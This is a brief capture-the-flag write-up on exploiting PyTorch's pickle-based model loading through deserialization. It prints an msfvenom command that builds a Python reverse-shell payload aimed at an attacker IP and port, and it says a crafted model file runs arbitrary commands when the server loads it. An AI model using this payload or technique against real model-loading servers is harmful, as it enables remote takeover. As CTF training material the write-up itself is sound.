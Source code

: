 PyTorch is infamous for its deserialization attacks. PyTorch objects are just any pickled object.

```
$ msfvenom -p cmd/unix/reverse_python LHOST=192.168.69.132 LPORT=9999 -f raw > reverse.py
```

By creating a malicious file like with solution.py's output, we can execute arbitrary commands when the model is loaded by the server.

Flag: BarSides{t0rch3d_by_p1ckl3s}